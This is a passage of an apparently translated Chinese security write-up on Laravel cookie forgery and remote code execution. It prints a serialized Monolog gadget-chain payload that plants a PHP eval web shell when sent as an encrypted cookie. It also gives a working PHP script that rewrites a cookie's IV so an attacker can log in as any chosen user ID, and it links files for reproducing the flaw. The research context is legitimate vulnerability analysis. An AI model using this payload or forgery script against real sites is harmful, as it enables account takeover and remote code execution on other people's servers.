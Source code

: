 
上面的脚本会生成我们的payload:

```
O:29:"Monolog\Handler\BufferHandler":3:{s:10:"\x00*\x00handler";O:29:"Monolog\Handler\StreamHandler":1:{s:6:"\x00*\x00url";s:15:"target-file.php";}s:9:"\x00*\x00buffer";a:1:{i:0;a:3:{s:5:"level";i:100;s:7:"message";s:34:"<?php eval(hex2bin($_GET['x']));?>";s:5:"extra";a:0:{}}}s:13:"\x00*\x00bufferSize";i:1;}

```

通过上面介绍的技巧，我们可以加密该payload，作为cookie提交上去的时候，代码就执行了。

0x08 译者总结
---------

* * *

对于原作者所说的漏洞，我拿一个开源blog[laravel-4.1-simple-blog](https://github.com/5-say/laravel-4.1-simple-blog)做实验，将关键文件回滚到存在漏洞状态，如果有人想研究，也可以在这[laravel-cookie-forgery-decryption-and-rce.zip](http://static.wooyun.org/20141017/2014101716030797096.zip)下载完整文件。

### 测试1 任意用户登录

在本地:

新注册一个账户fate0@fatezero.org，得到用户ID为62，利用以下代码即可获取指定ID用户的cookie

```
<?php

if ($argc < 4) {
    print("[*] Usage ".$argv[0]." cookie userid targetid\n");
    return;
}

$cookie = json_decode(base64_decode($argv[1]), true);
$userid = $argv[2];
$targetid = $argv[3];

$iv_a = base64_decode($cookie['iv']);
$p_a = addPadding(serialize($userid));
$p_b = addPadding(serialize($targetid));

$iv_b = base64_encode($iv_a ^ $p_a ^ $p_b);

$cookie['iv'] = $iv_b;

echo base64_encode(json_encode($cookie))."\n";

function addPadding($value) {
    $block_size = 32;
    $pad = $block_size - (strlen($value) % $block_size);
    return $value.str_repeat(chr($pad), $pad);
}
?>

```
